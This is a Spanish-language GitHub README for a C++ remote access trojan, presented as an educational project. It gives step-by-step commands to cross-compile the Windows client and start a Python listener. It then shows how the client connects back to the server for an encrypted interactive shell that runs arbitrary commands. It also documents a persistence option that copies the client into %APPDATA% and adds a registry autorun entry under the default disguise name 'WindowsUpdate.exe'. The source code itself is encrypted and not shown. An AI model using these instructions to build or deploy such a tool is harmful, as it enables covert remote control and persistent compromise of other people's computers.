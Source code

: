 # RAT C++

> [!WARNING]
> Aunque es algo super sencillo prefiero no tener directamente malware en mis repos de GitHub así que, por favor, descargue la `encryption 1.key` adjunta y ejecute el código para desencriptar:
> 
> `./direncrypt ./Client -d encryption\ 1.key`

> SHA original: `fb78bee1941d787ce88a531f444aab5d785e6d065d0db7c25acd6bf3d820c93a`

Si no quiere hacer el proceso hay una [demostración](#demostración) al final de este README.

---

Este proyecto es una implementación con fines educativos de un RAT que permite la ejecución remota de comandos en una máquina Windows desde un servidor en Linux. Toda la comunicación se encuentra cifrada utilizando **AES-128 (CBC)** para garantizar la confidencialidad.

El cliente está desarrollado en **C++** para Windows y el servidor en **Python**.

## Características

  - **Canal de Comunicación Cifrado:** Utiliza una clave precompartida AES-128 para cifrar todo el tráfico.
  - **Ejecución Remota de Comandos:** El servidor puede enviar cualquier comando de la shell de Windows al cliente y recibir la salida.
  - **Mecanismo de Persistencia:** El cliente puede instalarse en el sistema Windows para ejecutarse automáticamente en cada inicio de sesión.
  - **Cross-Compilation:** El cliente de Windows se compila fácilmente desde un entorno Linux usando `MinGW-w64`.

## Estructura del Proyecto

```
.
├── Client
│   ├── build.sh
│   ├── client.exe
│   ├── comm.cpp
│   ├── crypto.cpp
│   ├── exec.cpp
│   ├── include
│   │   ├── comm.h
│   │   ├── crypto.h
│   │   ├── exec.h
│   │   └── persist.h
│   ├── main.cpp
│   ├── Makefile
│   └── persist.cpp
├── direncrypt
├── keygen.py
└── Server
    ├── requirements.txt
    └── server.py
```

## Requisitos Previos

### Entorno de Compilación (Linux)

Para compilar el cliente (`client.exe`) necesitas un entorno Linux con el compilador cruzado **MinGW-w64**.

  - En **Debian/Ubuntu**, puedes instalarlo con:
    ```bash
    sudo apt update
    sudo apt install -y mingw-w64
    ```

### Entorno del Servidor (Python)

El servidor requiere Python 3 y algunas librerías externas.

1.  Navega al directorio del servidor:
    ```bash
    cd Server/
    ```
2.  Instala las dependencias usando el archivo `requirements.txt`:
    ```bash
    pip install -r requirements.txt
    ```

> Se recomienta usar un entorno virtual

## Tutorial de Uso

### Paso 1: Generar una Clave de Cifrado

El script `keygen.py` genera una clave AES-128 segura de 32 caracteres hexadecimales que necesitarán tanto el cliente como el servidor.

```bash
python3 keygen.py
```

**Salida de ejemplo:**

```
============================================================
  AES-128 Key Generator
============================================================

Generated Key: 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D

Length: 32 characters (16 bytes)
...
```

**Guarda esta clave, la necesitarás en los siguientes pasos.**

### Paso 2: Compilar el Cliente para Windows

Desde tu máquina Linux, navega al directorio del cliente y ejecuta el script de compilación.

```bash
cd Client/
./build.sh
```

Si la compilación es exitosa, se creará el archivo `client.exe` en el directorio `Client/`.

### Paso 3: Configurar el Entorno de Pruebas

Para probar la aplicación de forma segura, se recomienda usar una máquina virtual (VM) de Windows.

1.  **Monta la carpeta del proyecto** como un volumen compartido o una carpeta de red en tu VM de Windows. Esto te permitirá acceder al `client.exe` compilado desde dentro de la VM.
2.  Asegúrate de que la red de la VM esté configurada para que pueda comunicarse con la máquina anfitriona (Linux). Una configuración de red "Puente" (Bridged) o "NAT" suele funcionar.

> [!NOTE]
> La carpeta compartida no es necesaria pero yo lo hice así para el desarrollo

### Paso 4: Iniciar el Servidor

En tu máquina Linux, ejecuta el `server.py` especificando un puerto y la clave AES que generaste en el Paso 1.

```bash
# Formato: python3 Server/server.py <PUERTO> <CLAVE_AES>
python3 Server/server.py 4444 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D
```

El servidor comenzará a escuchar conexiones entrantes.

### Paso 5: Ejecutar el Cliente

Dentro de tu VM de Windows, abre una terminal (CMD o PowerShell) y ejecuta el cliente.

  - **IP:** La dirección IP de tu máquina anfitriona Linux.
  - **PUERTO:** El mismo puerto que usaste para el servidor.
  - **CLAVE\_AES:** La misma clave que usaste para el servidor.

<!-- end list -->

```powershell
# Formato: ./client.exe <IP_SERVIDOR> <PUERTO> <CLAVE_AES> [--persist | --nopersist]

.\client.exe 192.168.1.100 4444 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D --nopersist
```

Si todo es correcto, verás un mensaje de conexión en el servidor y aparecerá una shell interactiva `RAT >`.

## Argumentos del Cliente y Persistencia

El comportamiento del cliente se puede controlar con los siguientes argumentos:

  - `--persist`: Al usar esta opción, el cliente se copiará a sí mismo a la carpeta `%APPDATA%` y creará una clave en el registro de Windows para ejecutarse automáticamente cada vez que el usuario inicie sesión.
  - `--nopersist`: El cliente se ejecuta una sola vez y no realiza ninguna modificación en el sistema. Si no se especifica `--persist` ni `--nopersist`, este es el comportamiento por defecto.
  - `--appname <NOMBRE>`: Permite especificar un nombre para el archivo copiado y la entrada del registro cuando se usa la persistencia (el valor por defecto es `WindowsUpdate.exe`).

> [\!NOTE]
> Cuando la persistencia se instala, el programa guarda el comando completo (incluyendo IP, puerto y clave) en el registro para poder reconectarse automáticamente después de un reinicio.

## Comandos Remotos Especiales

Una vez conectado, además de los comandos estándar de Windows (`dir`, `whoami`, etc.), puedes usar los siguientes comandos desde la shell del servidor:

  - `persist_install`: Instala la persistencia en la máquina cliente.
  - `persist_remove`: Elimina la persistencia del cliente.
  - `persist_check`: Verifica si la persistencia está activa.
  - `exit` o `quit`: Cierra la conexión con el cliente.

> [!WARNING]
> Este software está diseñado únicamente con fines educativos. Su uso está destinado a entornos controlados y aislados, como máquinas virtuales. No utilices esta herramienta en sistemas para los que no tengas autorización explícita.

# Demostración

## Poniendo el servidor en escucha

<p align="center">
    <img src="resources/server_en_escucha.png" alt="Server en escucha"/>
</p>

## Activando el RAT

<p align="center">
    <img src="resources/RAT_activado.png" alt="RAT activado"/>
</p>

## Usando el RAT

<p align="center">
    <img src="resources/usando_el_RAT.png" alt="Usando el RAT"/>
</p>

## Persistencia

<p align="center">
    <img src="resources/persistencia.png" alt="Persistencia"/>
</p>

